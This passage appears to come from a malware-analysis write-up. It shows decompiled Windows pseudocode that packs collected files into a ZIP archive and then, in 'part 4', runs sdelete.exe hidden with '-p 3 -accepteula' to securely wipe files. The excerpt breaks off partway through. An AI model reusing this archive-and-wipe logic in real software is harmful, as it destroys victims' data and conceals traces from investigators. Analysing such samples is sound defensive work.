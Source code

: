 ```c
                fclose(v9);
                v15 = strrchr(*(const char **)(a1 + 8 * i), 92);
                if ( v15 )
                  v16 = v15 + 1;
                else
                  v16 = *(char **)(a1 + 8 * i);
                v18 = 0;
                memset(v17, 0, sizeof(v17));
                if ( !(unsigned int)((__int64 (__fastcall *)(__int64, char *, _OWORD *, _QWORD, _DWORD, _QWORD, _DWORD, _QWORD, int, int))zipOpenNewFileInZip)(
                                      v5,
                                      v16,
                                      v17,
                                      0LL,
                                      0,
                                      0LL,
                                      0,
                                      0LL,
                                      8,
                                      -1) )
                {
                  zipWriteInFileInZip(v5, v13, (unsigned int)v11);
                  zipCloseFileInZip(v5);
                }
                free(v13);
                continue;
              }
              free(v13);
            }
          }
        }
        fclose(v9);
      }
    }
  }
  return (unsigned int)-((unsigned int)zipClose(v5, 0LL) != 0);
  ```

- the summarization of this function is that it creates a ZIP archive containing files specified in the `v9` array.

### part 4

```c
if ( v10 > 0 )
    {
      v19 = 0LL;
      do
      {
        v20 = (const char *)*((_QWORD *)v9 + v19);
        if ( GetModuleFileNameA(0LL, Filename, 0x104u) )
        {
          if ( PathRemoveFileSpecA(Filename) )
          {
            if ( sub_140001060(FileName, 0x104uLL, "%s\\sdelete.exe", Filename) < 260
              && GetFileAttributesA(FileName) != -1
              && (unsigned int)sub_140001060(CommandLine, 0x208uLL, "\"%s\" -p %d -accepteula \"%s\"", FileName, 3, v20) < 0x208 )
            {
              memset(&StartupInfo, 0, sizeof(StartupInfo));
              StartupInfo.cb = 104;
              StartupInfo.dwFlags = 257;
              StartupInfo.wShowWindow = 0;
              FileA = CreateFileA("NUL", 0x40000000u, 0, 0LL, 3u, 0x80u, 0LL);
```